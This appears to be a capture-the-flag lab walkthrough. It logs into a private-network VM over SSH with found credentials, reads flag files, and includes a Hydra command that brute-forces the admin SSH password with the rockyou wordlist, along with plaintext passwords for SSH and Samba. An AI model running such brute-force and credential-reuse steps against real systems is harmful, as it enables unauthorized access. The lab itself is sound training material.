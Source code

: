 **Steps:**

1. Connected to SSH using discovered credentials

```bash
$ ssh victim@192.168.74.132
Password: Password123
```

2. Explored the victim's home directory

```bash
victim@ubuntu:~$ ls -la
total 32
drwxr-xr-x 4 victim victim 4096 Jul 01 12:00 .
drwxr-xr-x 4 root   root   4096 Jul 01 12:00 ..
-rw------- 1 victim victim  220 Jul 01 12:00 .bash_history
-rw-r--r-- 1 victim victim 3771 Jul 01 12:00 .bashrc
drwx------ 2 victim victim 4096 Jul 01 12:00 .cache
-rw-r--r-- 1 victim victim  807 Jul 01 12:00 .profile
drwx------ 2 victim victim 4096 Jul 01 12:00 .ssh
-rw-r--r-- 1 victim victim  100 Jul 01 12:00 .admin_password_hint.txt
-rw-r--r-- 1 victim victim  342 Jul 01 12:00 congratulations.txt
```

3. Examined visible files


```bash
victim@ubuntu:~$ cat congratulations.txt
Congratulations on accessing the SSH server!
FLAG{SSH_Access_Granted}

NEXT CHALLENGE: Try to brute force the admin user\'s SSH password.
Hint: It\'s a common password from a popular wordlist.
You can use Hydra: hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.74.132

Once you access the admin account, check for Samba access information.

victim@ubuntu:~$ cat .admin_password_hint.txt
The admin password is one of the top 20 passwords in rockyou.txt: angel
```

4. Used the discovered admin password to access the admin account


```bash
$ ssh admin@192.168.74.132
Password: angel
```

5. Explored the admin's home directory


```bash
admin@ubuntu:~$ ls -la
total 28
drwxr-xr-x 2 admin admin 4096 Jul 01 12:00 .
drwxr-xr-x 4 root  root  4096 Jul 01 12:00 ..
-rw------- 1 admin admin  220 Jul 01 12:00 .bash_history
-rw-r--r-- 1 admin admin 3771 Jul 01 12:00 .bashrc
-rw-r--r-- 1 admin admin  807 Jul 01 12:00 .profile
-rw-r--r-- 1 admin admin  342 Jul 01 12:00 samba_access.txt

admin@ubuntu:~$ cat samba_access.txt
Congratulations on accessing the admin account!
FLAG{SSH_Admin_Access}

NEXT CHALLENGE: Access the Samba shares with these credentials:
Username: admin
Password: angel
```